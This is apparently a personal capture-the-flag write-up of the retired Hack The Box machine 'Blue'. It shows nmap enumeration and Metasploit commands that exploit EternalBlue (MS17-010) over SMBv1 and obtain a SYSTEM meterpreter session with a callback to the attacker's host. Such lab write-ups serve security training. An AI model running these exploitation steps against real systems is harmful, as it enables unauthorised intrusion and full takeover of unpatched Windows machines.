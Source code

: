 ## **Hack The Box - Blue**

**Creator:** [Ch4p](https://app.hackthebox.com/users/1)

**Difficulty:** Easy

**Link:** [Blue](https://app.hackthebox.com/machines/51)


---


<ins> **Introduction** </ins>

![infocard](/docs/assets/images/HTB/blue/blueinfocard.png)

Blue is an Easy level retired machine on Hack the Box. This machine is running an outdated version of Windows that is vulnerable to [cve-2017-0144](https://nvd.nist.gov/vuln/detail/cve-2017-0144) also known as *Eternal Blue*. This vulnerability affects multiple versions of Windows (specific build numbers for windows 10 and later): Windows Vista, Windows7, Windows Server 2008, Windows 8.1, Windows server 2012, Windows 10, and Windows Server 2016. This was patched in March of 2017 meaning anything still vulnerable to it is pretty out of date. 

In short the *SMBv1* server in Microsoft Windows allows for arbitrary code execution is specifically crafted packets. There is a *Metasploit Frameworks* Auxiliary Module that can scan a system and see if it is vulnerable to Eternal blue. There is also a module to exploit the vulnerability and grant a meterpreter on the unpatched system as the `NT AUTHORITY\SYSTEM` user. Since this is the highest privileged user on any Windows System I will have full access from there.

---


<ins> **Enumeration** </ins>

This is a pretty straightforward machine, still it's good practice to always repeate the first steps so I ran my usual nmap scan to start it off.

`nmap -sV -oA blue_services <target_ip>`

![nmap](/docs/assets/images/HTB/blue/blue01.png)

```
135/tcp msrpc MIcrosofot Windows RPC* 

139/tcp netbios-ssn Microsoft Windows netbios-ssn 

445/tcp Microsoft-ds Microsoft Windows 7 – 10 microsoft –ds (workgroup:WORKGROUP) 

49152/tcp msrpc Microsoft Windows RPC 

49153/tcp msrpc Microsoft Windows RPC 

49154/tcp msrpc Microsoft Windows RPC 

49155/tcp msrpc Microsoft Windows RPC 

49156/tcp msrpc Microsoft Windows RPC 

49157/tcp msrpc Microsoft Windows RPC

Hostname HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows 

```

I used an nmap script scan to further gather some information on that *microsoft-ds* although I can see from my service scan that it is likely running Windows 7-10.

`nmap -p 445 --script smb-protocols <target_ip>`

![nmap script](/docs/assets/images/HTB/blue/blue02.png)

There I can verify that it is indeed running *SMBv1* meaning it's likely vulnerable to *Eternal Blue*.


---


<ins> **Exploitation with Metasploit** </ins>

Using `msfconsole` to bootup *metasploit* on my system I `search` for *eternal blue* and select the `auxiliary/scanner/smb/smb_ms17_010` module for `use`

```
msfconsole

search eternal blue

use auxiliary/scanner/smb/smb_ms17_010

```

![search eternal blue](/docs/assets/images/HTB/blue/blue03.png)

![use scanner](/docs/assets/images/HTB/blue/blue04.png)

Running `show options` I can see that since the *RPORT* was set to *445* by default all I need to edit is the *RHOSTS* option so that it's set to the *target IP* and *exploit*.

```
show options

set RHOSTS <TARGET_IP>

exploit

```

![set rhosts](/docs/assets/images/HTB/blue/blue05.png)

![exploit](/docs/assets/images/HTB/blue/blue06.png)

I'm now going to use the `exploit/windows/smb/ms17_010_psexec` module from earlier.  
 
*PsExec* is a lightweight *telnet-replacement* developed by Microsoft that allows you to execute processes on remote windows systems using any user's credentials and authenticates over *smb*.

```
use exploit/windows/smb/ms17_010_psexec

show options

```
![change module](/docs/assets/images/HTB/blue/blue07.png)

![show options](/docs/assets/images/HTB/blue/blue08.png)

This one is simple as well. I just need to set the *RHOSTS* to my *target IP* and the *LHOST* to my *host ip* and run the *exploit*.

```
set LHOST <host_ip>

set RHOSTS <target_ip>

exploit

```

![set options2](/docs/assets/images/HTB/blue/blue09.png)


After the exploit runs I'm granted a *meterpreter* and give myself a shell to work with. I run `whoami` to verify that I am the *nt authority/system* user.

![whoami root](/docs/assets/images/HTB/blue/blue10.png)

Since I have the highest level privileges on the system as this user it was as easy as looking around the system for the flags and opening the `user.txt` and `root.txt` files n their respective directories using the `type` command. 
  
![flags](/docs/assets/images/HTB/blue/blue11.png)

![pwned](/docs/assets/images/HTB/blue/bluepwned.png)


---


<ins> **Final Thoughts** </ins>

This machine was overly simple with *metasploit* and a very outdated system, however my *eJPT* certification course had an entire module dedicated to *Eternal Blue* so I wanted to try it for myself.

     

